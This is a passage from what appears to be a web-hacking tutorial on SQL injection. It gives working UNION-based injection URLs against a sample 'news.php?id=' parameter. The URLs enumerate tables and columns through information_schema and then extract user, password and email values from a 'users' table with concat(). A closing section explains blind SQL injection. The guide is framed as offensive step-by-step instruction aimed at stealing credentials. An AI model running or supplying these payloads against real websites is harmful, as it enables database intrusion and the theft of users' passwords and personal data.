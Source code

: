 ```html
http://server/news.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 2,1/*
```

Keep incrementing until you get some useful like db\_admin, poll\_user, auth, auth\_user, etc...

To get the column names the method is similar. Here we use **"column\_name"** and **"infor-mation\_schema.columns"** as per the following example:

```html
http://server/news.php?id=5 union all select 1,column_name,3 from information_schema.columns limit 0,1/*
```

The first column is getting displayed so to move further and retrieve the second we will need once again change "limit 0,1" to "limit 1,1".

**Example**

```html
http://server/news.php?id=5 union all select 1,column_name,3 from information_schema.columns limit 1,1/*
```

The second column is displayed, so keep incrementing until you get something like username, user, login, password, pass, passwd, etc... If you want to display the column names for specific table use the following query:

**Example**

```html
http://server/news.php?id=5 union all select 1,column_name,3 from information_schema.columns where table_name='users'/*
```

Now we get displayed column name in table users. Note, this won’t work if the magic quotes are ON. Let’s say that we found columns user, pass and email, now to complete the query, we put them all together and for that, we will use **concat()**.

**Example**

```html
http://server/news.php?id=5 union all select 1, concat(user,0x3a,pass,0x3a,email) from users/*
```

From the above example, we shall get the user:pass:email from table users.

* * *

## Blind SQL Injection

Blind SQL Injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the application's response. This attack is often used when the web application is configured to show generic error messages, but has not mitigated the code that is vulnerable to SQL injection. 

Blind SQLi is nearly identical to normal SQL Injection, the only difference being the way the data is retrieved from the database. When the database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions. This makes exploiting the SQL Injection vulnerability more difficult, but not impossible.
